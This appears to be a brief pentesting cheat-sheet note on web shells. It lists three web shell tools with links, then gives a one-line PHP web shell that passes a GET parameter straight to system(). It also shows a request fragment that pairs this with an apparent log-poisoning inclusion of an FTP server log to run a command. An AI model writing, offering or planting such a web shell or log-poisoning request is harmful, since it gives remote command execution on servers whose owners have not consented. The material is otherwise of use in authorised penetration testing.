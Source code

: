

## Tools

1. [[Laudanum, One Webshell to Rule Them All]]
2. [GitHub - epinna/weevely3: Weaponized web shell](https://github.com/epinna/weevely3)
3. [GitHub - WhiteWinterWolf/wwwolf-php-webshell: WhiteWinterWolf's PHP web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)


## Examples 

 `<?php system($_GET[‘commandInjection’]); ?>`
`_/var/log/vsftpd.log&commandInjection=ifconfig